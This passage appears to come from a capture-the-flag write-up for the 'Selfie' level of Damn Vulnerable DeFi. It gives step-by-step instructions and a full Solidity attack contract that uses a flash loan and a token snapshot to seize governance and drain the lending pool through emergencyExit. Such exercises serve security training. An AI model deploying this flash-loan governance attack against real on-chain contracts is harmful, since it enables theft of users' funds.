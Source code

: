 1. Take out a flash loan.
2. Take a manual snapshot using the snapshot() function of the token.
3. Call the queueaction with the emergencyExit() function of the pool.
4. Now our balance at the last snapshot is checked, which is giant thanks to the flashloan.
5. Our action gets queued.
6. We repay the loan.
7. We wait for 2 days until the grace period finished.
8. We call to execute and receive all them sweet moneys.

I once again wrote an attack contract that does this for us:

```solidity
// SPDX-License-Identifier: UNLICENSED

pragma solidity ^0.8.0;

import "./ISimpleGovernance.sol";
import "./SelfiePool.sol";
import "@openzeppelin/contracts/interfaces/IERC3156FlashBorrower.sol";

contract Attack_Selfie is IERC3156FlashBorrower{
    address owner;
    SelfiePool pool;
    ISimpleGovernance gov;
    uint256 max_loan;

    constructor() 
    {
        owner = msg.sender;
    }

    function letsAGo(address _pool, address _gov) public
    {
        pool        = SelfiePool(_pool);
        gov         = ISimpleGovernance(_gov);
        max_loan    = pool.token().balanceOf(_pool);

        pool.flashLoan(IERC3156FlashBorrower(address(this)), address(pool.token()), max_loan, "0x");
    }

    function letsAGoV2() public
    {
        gov.executeAction(1);
    }

    function onFlashLoan(
        address initiator,
        address token,
        uint256 amount,
        uint256 fee,
        bytes calldata data
    ) external returns (bytes32)
    {
        DamnValuableTokenSnapshot(token).snapshot();
        gov.queueAction(address(pool), 0, abi.encodeWithSignature("emergencyExit(address)", owner));

        DamnValuableTokenSnapshot(token).approve(address(pool), max_loan);

        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }
}
```
